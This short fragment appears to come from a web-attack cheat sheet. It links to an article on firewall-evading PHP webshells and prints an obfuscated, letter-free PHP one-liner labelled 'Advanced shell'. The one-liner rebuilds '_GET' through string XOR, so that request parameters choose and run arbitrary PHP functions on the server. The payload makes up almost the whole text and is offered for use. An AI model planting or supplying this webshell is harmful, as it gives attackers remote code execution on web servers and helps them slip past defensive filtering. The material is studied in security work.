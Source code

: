 [PHP Shell without number and letter](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

Advanced shell < 40 chars: 
```
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```

